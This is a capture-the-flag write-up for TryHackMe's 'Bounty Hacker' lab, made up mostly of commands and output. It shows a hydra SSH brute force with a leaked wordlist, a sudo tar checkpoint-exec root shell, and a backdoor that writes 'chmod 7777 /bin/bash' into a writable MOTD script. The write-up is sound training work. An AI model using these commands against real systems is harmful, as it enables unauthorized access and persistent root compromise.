




# Bounty Hacker
**Date:** October 24th 2022

**Author:** j.info

**Link:** [**Bounty Hacker**](https://tryhackme.com/room/cowboyhacker) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- Who wrote the task list?
- What service can you bruteforce with the text file found?
- What is the users password?
- user.txt
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/images               (Status: 200) [Size: 938]
/index.html           (Status: 200) [Size: 969]
```

<br>

## FTP Digging

Since anonymous login is allowed I check to see what files are out there on the ftp server:

`ftp $ip`

```
Connected to 10.10.221.149.
220 (vsFTPd 3.0.3)
Name (10.10.221.149:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls
229 Entering Extended Passive Mode (|||41227|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp>
```

I download the files to my system and take a look at them.

locks.txt looks like it's a wordlist of some sort.

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

task.txt

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-<REDACTED>
```

That answers the first question of who wrote the task list.

<br>

## Website Digging

Visiting the main page:



Directory browsing is enabled on /images but it's just the one picture we see on the website.

Viewing the page source doesn't have anything useful for us either.

Given that I'm thinking that we should try and brute force our way in via ssh with the user name we found on the task list file using the wordlist from the other txt file.

<br>

## System Access

I use hydra with these 2 pieces of information and find their password pretty quickly:

`hydra -l <REDACTED> -P locks.txt $ip ssh`

```
22][ssh] host: 10.10.221.149   login: <REDACTED>   password: <REDACTED>
```

That answers both what service you can brute force and the users password questions.

I SSH over:

```
The authenticity of host '10.10.221.149 (10.10.221.149)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.221.149' (ED25519) to the list of known hosts.
<REDACTED>@10.10.221.149's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
<REDACTED>@bountyhacker:~/Desktop$
```

<br>

## System Enumeration

Looking in our home directory we find the user.txt flag waiting for us:

```
THM{<REDACTED>}
```

Doing a search for SUID files with `find / -perm /4000 2>/dev/null` doesn't show anything out of the ordinary.

Running a recursive search for files with capabilities with `getcap -r / 2>/dev/null` doesn't give us anything useful either.

Other than root we're the only user on the system with a login shell defined.

Our permissions via `id` show default groups, nothing extra.

Looking at `sudo -l` shows us we can run the tar command as root:

```
Matching Defaults entries for <REDACTED> on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User <REDACTED> may run the following commands on bountyhacker:
    (root) /bin/tar
```

<br>

## Root

Looking at [**GTFOBins for the tar command**](https://gtfobins.github.io/gtfobins/tar/#sudo) shows us we can use that to escalate over to root with the following:



I run that command but substitute bash for sh and get root:

```
<REDACTED>@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# whoami
root
```

Over in the root directory we find the final flag, root.txt:

`wc -c /root/root.txt`

```
19 /root/root.txt
```

<br>

## Bonus Root Method

I found another way to get root on this system due to the /etc/update-motd.d/00-header file being writable by everyone:

`ls -al /etc/update-motd.d/00-header`

```
-rwxr-xrwx 1 root root 1221 Jun  7  2020 /etc/update-motd.d/00-header
```

```
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
```

When logging into the system this MOTD file gets displayed on the users screen, and it gets called by the root user. Because of that we can modify the file to run additional commands as root and they will get executed whenever somebody logs into the system.

I modify the file and add the following at the bottom:

```
printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

chmod 7777 /bin/bash
```

Looking at the permissions of /bin/bash now:

```
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

When I log out and log back in that should give full permissions to the binary including SUID.

I log out and back in and check the permissions again:

```
-rwsrwsrwt  1 root root 1037528 Oct 24 21:11 bash
```

And running it via `./bash -p`:

```
<REDACTED>@bountyhacker:~$ ./bash -p
bash-4.3# whoami
root
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding sensitive information on an **ftp site** with **anonymous login** enabled
- Brute forcing our way onto the system with **hydra** using the information we found
- Escalating to root by exploting a **SUID set tar command**
- Finding another way to get root by modifying the **MOTD 00-header** file which we had write permissions to

<br>

Many thanks to:
- [**Sevuhl**](https://tryhackme.com/p/Sevuhl) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)